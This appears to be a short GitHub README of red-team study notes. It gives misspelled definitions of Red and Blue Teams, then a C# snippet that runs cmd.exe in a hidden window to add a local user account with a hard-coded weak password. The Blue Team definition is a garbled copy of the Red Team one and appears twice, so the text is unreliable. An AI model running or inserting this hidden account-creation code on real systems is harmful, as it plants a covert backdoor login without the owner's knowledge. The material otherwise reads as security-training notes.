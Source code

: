 # Introduction To Read Team Operation

## Defination

### Red Team

 `Defination` : rea team emulate tactics , techniques , and procedure of real adversaries to improve the people , process and technology in target Environment 

`Goal` :make blue team better , measure and train  blue team gave better detection and response 

`Effort` : Manual , some read team framework and automation tools

`frequency` : new exploit , tool or  TTP

### Blue Team

`Defination` : rea team emulate tactics , techniques , and procedure of real adversaries to improve the people , process and technology in target Environment

`Goal` :make blue team better , measure and train blue team gave better detection and response

`Effort` : Manual , some read team framework and automation tools

`frequency` : new exploit , tool or TTP

### Blue Team

`Defination` : rea team emulate tactics , techniques , and procedure of real adversaries to improve the people , process and technology in target Environment

`Goal` :make blue team better , measure and train blue team gave better detection and response

`Effort` : Manual , some read team framework and automation tools

`frequency` : new exploit , tool or TTP



#### chsarp basic

```csharp
System.Diagnostics.Process process = new System.Diagnostics.Process();
System.Diagnostics.ProcessStartInfo startInfo = new System.Diagnostics.ProcessStartInfo();
startInfo.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
startInfo.FileName = "cmd.exe";
startInfo.Arguments = "/C net user /add nooranetred Aa123456";
process.StartInfo = startInfo;
process.Start();
```


